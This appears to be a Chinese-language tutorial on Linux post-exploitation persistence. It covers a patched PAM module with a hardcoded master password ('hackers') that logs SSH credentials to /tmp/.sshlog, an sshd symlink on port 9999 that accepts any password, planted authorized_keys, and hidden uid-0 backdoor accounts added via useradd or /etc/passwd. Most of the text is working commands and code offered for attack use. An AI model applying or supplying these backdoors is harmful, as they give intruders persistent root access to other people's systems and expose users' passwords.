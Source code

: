 
## **PAM后门**
在Linux系统中，PAM（Pluggable Authentication Modules）是一个动态链接库，提供了一种灵活的机制来实施各种认证相关的策略。

流程：
获取目标系统所使用的PAM版本，下载对应版本的pam版本
<https://github.com/linux-pam/linux-pam/releases/tag/Linux-PAM-1_1_8>
解压缩，修改pam_unix_auth.c文件，添加万能密码
编译安装PAM
编译完后的文件在：modules/pam_unix/.libs/pam_unix.so，复制到/lib64/security中进行替换
即使用万能密码登陆，会将用户名密码记录到文件中，root用户就只能用ssh万能密码登录。

```
setenforce 0     ##关闭防火墙
rpm -qa | grep pam ##查看pam版本

安装gcc和编译需要的flex库
yum install gcc flex flex-devel -y

vim linux-pam-Linux-PAM-1_1_8/modules/pam_unix/pam_unix_auth.c

/* verify the password of this user */
retval = _unix_verify_password(pamh, name, p, ctrl);
if(strcmp("hackers",p)==0){return PAM_SUCCESS;} //后门密码
if(retval == PAM_SUCCESS){ 
FILE * fp; 
fp = fopen("/tmp/.sshlog", "a");//SSH登录用户密码保存位置
fprintf(fp, "%s : %s\n", name, p); 
fclose(fp);} 
name = p = NULL;
AUTH_RETURN;

此时/tmp/.sshlog中万能密码：root : admin@123

编译
cd linux-pam-Linux-PAM-1_1_8
./configure && make
```

^
## **OpenSSH后门**
替换本身操作系统的ssh协议支撑软件openssh，重新安装自定义的openssh,达到记录帐号密码，也可以采用万能密码连接的功能！




## **SSH软链接**
在sshd服务配置开启PAM认证的前提下，
PAM配置文件中控制标志为sufficient时，只要pam_rootok模块检测uid为0（root）即可成功认证登录，即使密码错误。


查看是否开启pam身份验证
```
cat /etc/ssh/sshd_config|grep UsePAM
这里如果是no可以去这个配置文件中直接去修改，不过需要是root权限。
```
端口建立软链接，并开放防火墙
```
ln -sf /usr/sbin/sshd /tmp/su ;/tmp/su -oPort=9999
#开启软链接，链接端口为9999
 
firewall-cmd --add-port=9999/tcp --permanent
#开启防火墙规则，不然会连接不上
 
firewall-cmd --reload
#重启防火墙服务
 
firewall-cmd --query-port=9999/tcp
#查看防火墙9999端口是否被放行，回显为YES即成功放行
```
连接，随便输入密码登录成功
````
ssh root@192.168.10.60 -p 9999   
````






## **加公私钥认证**
本地利用密钥生成器制作一对RSA密钥即公钥和私钥。将公钥添加到服务器的某个账户上，然后在客户端利用私钥即可完成认证并登录。
缺点：太容易被发现。

开启密钥认证，攻击机和目标机都需要设置
```
vim /etc/ssh/sshd_config

RSAAuthentication yes
PubkeyAuthentication yes
AuthorizedKeysFile .ssh/authorized_keys
```
本地生成
```
ssh-keygen -t rsa #三次回车
id_rsa : 私钥
id_rsa.pub : 公钥
```
上传连接
```
/root/.ssh/authorized_keys

ssh root@192.168.10.60
```






## **加后门账户**
创建后门账户
缺点：容易被发现

方式1：
添加账号test1，设置uid为0，密码为123456
```
useradd -p `openssl passwd -1 -salt 'salt' 123456` test1 -o -u 0 -g root -G root -s /bin/bash -d /home/test1
```

方式2：
```
echo "test2:x:0:0::/:/bin/sh" >> /etc/passwd #增加超级用户账号
passwd test2 #修改test2的密码为123456
```